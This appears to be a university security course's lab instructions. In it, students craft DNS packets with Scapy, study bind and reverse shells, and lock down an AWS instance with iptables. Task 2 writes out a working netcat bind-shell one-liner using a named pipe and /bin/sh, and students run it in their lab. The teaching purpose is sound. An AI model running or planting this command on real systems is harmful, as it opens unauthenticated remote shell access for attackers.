 ## Lab 3 : CEG 3400

### The Terminalator

Table of contents:
* [Background](LAB3-INSTRUCTIONS.md#background)
* [Objectives](LAB3-INSTRUCTIONS.md#objectives)
* [Preparation](LAB3-INSTRUCTIONS.md#preparation)
* [Task 1: Crafting Packets](LAB3-INSTRUCTIONS.md#task-1-crafting-packets)
* [Task 2: A Shell Game](LAB3-INSTRUCTIONS.md#task-2-a-shell-game)
* [Task 3: Iptables](LAB3-INSTRUCTIONS.md#task-3-iptables)
* [Task 4: Any Port ina Storm](LAB3-INSTRUCTIONS.md#task-4-any-port-in-a-storm)

---

#### Background and Objectives

In this lab you will learn about some basic (and more advanced) network manipulation 
tools by catpuring and creating packets, and exploring a well documented type of 
attack.

This lab assumes you have a basic understanding of networking, IP addresses, ports
and packets (from CEG-2350 and what was covered in class).

Students should become familiar with the following:

* creating, sending, and capturing packets with Scapy
* abusing netcat and pipes
* configuring iptables (firewalls)

---

#### Rubrik
| Item | # Points|
| --- | --- |
| 10 commits | 10 |
| Good markdown style | 20 |
| Task 1 | 30 |
| Task 2 | 30 | 
| Task 3 | 20 |
| Task 4 | 30 |

---

#### Preparation

This lab will require all work be done in AWS.  Please deploy the below instance and work inside the lab.

* [CEG 3400 Lab 3 AWS link](https://console.aws.amazon.com/cloudformation/home?region=us-east-1#/stacks/new?stackName=ceg3400Lab&templateURL=https:%2F%2Fwsu-cecs-cf-templates.s3.us-east-2.amazonaws.com%2Fcourse-templates%2Fceg3400-mek.yml)
* Identify the IP address of the running EC2 instance created [in the EC2
  page](https://console.aws.amazon.com/ec2/v2/home?region=us-east-1#Instances:)

---

### Task 1: Crafting Packets

Famliarize yourself with scapy (covered in class) by creating a DNS request for `xkcd.com` and sending
it to `8.8.8.8` (or any DNS server that will respond to you).  Capture the response.

Answer all questions in `README.md`

* [Scapy Documentation](https://scapy.readthedocs.io/en/latest/#interactive-tutorial)


---

### Task 2: A Shell Game

You find the following command in the command history on one of your systems:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 >/tmp/f
```

Investigate this command by running it on your AWS system.  While it is running scan the
***PUBLIC*** IP address of your AWS instance.

A security researcher mentioned that an outbreak of Bind and Reverse shells have been cropping 
up on your network recently.  Do some research on ***Bind Shells*** and ***Reverse Shells***.

After you have an understanding of what a Bind shell and reverse shell are see if you can 
make this one respond!

Hint: Try connecting to the opened port with `nc` from a different system.

Again, answer all questions in `README.md`.

---

### Task 3: Iptables

Clearly the previous command should not be left running.  But we can do better.

Using `iptables` block all incoming access to the malicious shell port on your AWS system.

Hint: you can craft a single `iptables` command or you can use `iptables-save` 
and `iptables-restore` to simplify saving the full firewall rules list.

---

### Task 4: Any Port in a Storm

After successfully blocking that shell your crack team of security researchers start 
seeing more malicious shells running on other ports.  Before you can start yelling at
your co-workers you need to lock your system down.

Identify all NEEDED ports for your standard communications with this server (SSH) and 
block ***ALL OTHER PORTS***.

***Hint:*** you will likely mess this up when deploying, be sure to document and 
`git commit` / `git push` all files including your final task 4 iptables-rules file 
before attempting this task.  If you lock yourself out that is OK, just answer all 
questions for this task.


